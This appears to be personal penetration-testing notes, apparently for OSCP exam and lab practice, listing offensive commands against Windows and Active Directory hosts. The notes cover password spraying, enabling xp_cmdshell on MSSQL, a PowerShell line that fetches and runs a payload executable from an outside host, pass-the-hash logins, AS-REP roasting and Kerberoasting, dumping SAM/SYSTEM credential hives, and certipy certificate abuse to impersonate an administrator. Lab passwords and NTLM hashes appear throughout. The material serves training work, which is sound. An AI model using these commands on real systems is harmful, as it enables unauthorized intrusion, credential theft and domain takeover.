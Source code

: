 ***1433 mssql open***
	`nxc mssql 10.10.159.148 -u users_updated.txt -p passwords.txt --continue-on-success`
	- spray creds at IP
	`nxc mssql 10.10.159.148 -u sql_svc -p Dolphin1 -x 'whoami /priv'`
	- `-x` for command execution
	`mssqlclient.py -windows-auth oscp.exam/sql_svc:'Dolphin1'@10.10.159.148`
	- better for command execution; allows for reverse shell
	- output:
		Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
		[*] Encryption required, switching to TLS
		[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
		[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
		[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
		[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
		[*] INFO(MS02\SQLEXPRESS): Line 1: Changed language setting to us_english.
		[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
		[!] Press help for extra shell commands
		SQL> `use master`
		[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
		[*] INFO(MS02\SQLEXPRESS): Line 1: Changed database context to 'master'.
		SQL> `sp_configure 'show advanced options', '1'`
		[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
		SQL> `RECONFIGURE`
		SQL> `sp_configure 'xp_cmdshell', '1'`
		[*] INFO(MS02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
		SQL> `RECONFIGURE`
		SQL> `EXEC master..xp_cmdshell 'whoami'`
		nt service\mssql$sqlexpress                                                                                                                
		SQL> `exec xp_cmdshell "powershell -c iwr -uri http://10.10.126.147:83/payload_1234.exe -Outfile c:\windows\temp\payload_1234.exe"`
		SQL> `exec xp_cmdshell "powershell -c c:\windows\temp\payload_1234.exe"`
	
                                                                                                                                                                                                                                                     
***139/445 smb open***
- if you have ntlm hash (from mimikatz), but can't crack:
	- `nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'`
- if you have smb screds:
	- `smbclient.py oscp.exam/web_svc:Diamond1@10.10.159.146`
- no creds/null session:
	- `nxc smb 192.168.x.x -u '' -p '' --shares`
	- `smbclient -L 192.168.184.248 -U guest`


- if you find a share:
	- `smbclient \\\\192.168.184.248\\Users -N`

***135 rpc open***
	- `rpcclient -U "joe%Flowers1" -c enumdomusers 172.16.247.10`
		- enumerate users

***5985/5986 winrm open***
	- `netexec winrm 10.10.126.140 -u users.txt -H hash.txt`
	- `evil-winrm -i 172.16.230.83 --user wario --pass Mushroom\!`

secretsdump

wmiexec

psexec
`psexec.py oscp.exam/administrator@10.10.138.152 -hashes '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'`


PSSession script to to connect to another windows device in the internal network:
	`$User = "wario"`
	`$Password = ConvertTo-SecureString "Mushroom!" -AsPlainText -Force`
	`$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User, $Password`
	`$Session = New-PSSession -ComputerName client02.medtech.com -Credential $Credential`
	`Invoke-Command -Session $Session -ScriptBlock {`
	    `hostname }`

`winrs -r:http://prod01.medtech.com:5985 -u:leon -p:"rabbit:)" "cmd"`



`impacket-GetNPUsers -dc-ip 10.10.159.146 -request -outputfile hashes.asreproast oscp.exam/web_svc:"Diamond1"`



`impacket-GetUserSPNs -dc-ip 10.10.159.146 -request -outputfile hashes.asreproast oscp.exam/web_svc:"Diamond1"`




check powershell history:
```
type C:\users\administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
		- also check actual folder for other files
		- check other users

Getting hashes from SAM/SYSTEM Files
	- C:\windows.old\Windows\System32\SAM
		- `download C:\windows.old\Windows\System32\SAM /home/daniel/OSCP_A/SAM`
			- evil-winrm command to download file to kali
			- make sure to include whole filepath with name of file 'SAM' at the end
	- C:\windows.old\Windows\System32\SYSTEM
		- `download C:\windows.old\Windows\System32\SYSTEM /home/daniel/OSCP_A/SYSTEM`
	- `secretsdump.py -sam SAM -system SYSTEM local`


`arp -a`


winrs

spray hashes:
`nxc winrm hosts.txt -u users.txt -H hashes.txt --continue-on-success`

search for domain certificates using certipy
```
certipy find -u peter.turner@hybrid.vl -p 'b0cwR+G4Dzl_rw' -dc-ip 10.10.186.213 
```
- returns a bunch of info on the domain, can be put into bloodhound

if "Domain Computers" has Enrollment Rights and you have access to a domain-joined machine, search for the `krb5.keytab` file, usually stored at `/etc/krb5.keytab` on linux
- transfer to home machine and run:
```
python3 keytabextract.py krb5.keytab
```
- get the ntlm hash and use with certipy:
```
certipy req -u 'MAIL01$' -hashes ":0f916c5246fdbc7ba95dcef4126d57bd" -dc-ip "10.10.232.21" -ca 'hybrid-DC01-CA' -template 'HYBRIDCOMPUTERS' -upn 'administrator' -target 'dc01.hybrid.vl' -key-size 4096 -debug
```
- make sure IPs are listed in `/etc/hosts`
- `-template 'HYBRIDCOMPUTERS'` is from certipy.txt output file
- should save certificate and private key to administrator.pfx
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.232.21
```
- get administrator hash to PTH with evil-winrm or whichever shell